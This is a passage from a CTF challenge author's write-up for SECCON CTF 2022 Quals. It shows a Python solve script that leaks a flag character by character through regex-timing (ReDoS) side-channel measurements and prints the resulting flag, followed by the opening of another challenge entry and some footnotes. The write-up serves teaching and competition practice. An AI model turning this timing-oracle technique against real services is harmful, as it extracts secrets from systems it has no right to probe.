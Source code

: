 ```python


def get_rule(index: int, next_chars: str) -> str:
    def escape(s): return s.replace("{", "\\\\{").replace("}", "\\\\}")
    expr = "".join([
        "\\^",
        "[",
        escape(next_chars),
        "]"
    ])
    return f"{index} regex {expr}"


CHARS = "_}" + string.ascii_letters + string.digits

flag = "SECCON{"
while not flag.endswith("}"):
    left = 0
    right = len(CHARS)
    while right - left > 1:
        mid = (left + right)//2
        t_left = get_time(get_rule(len(flag), CHARS[:mid]))
        t_right = get_time(get_rule(len(flag), CHARS[mid:]))
        print(f"{t_left = }, {t_right = }")
        if t_left > t_right:
            right = mid
        else:
            left = mid
    flag += CHARS[left]
    print(flag)
print(f"{flag = }")
```

### Flag

```
SECCON{reDo5L1fe}
```

## [misc] noiseccon

- 22 teams solved / 197 points
- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202211_SECCON_CTF_2022_Quals/misc/noiseccon

Description:

> Noise! Noise! Noise!
>
> ```
> nc noiseccon.seccon.games 1337
> ```


[^top-1]: Because of my lack of consideration, many players solved this challenge by unintended solutions :cry:
[^spanote-1]: In fact, you can skip this step because bfcache is disabled by [default options](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175) of puppeteer.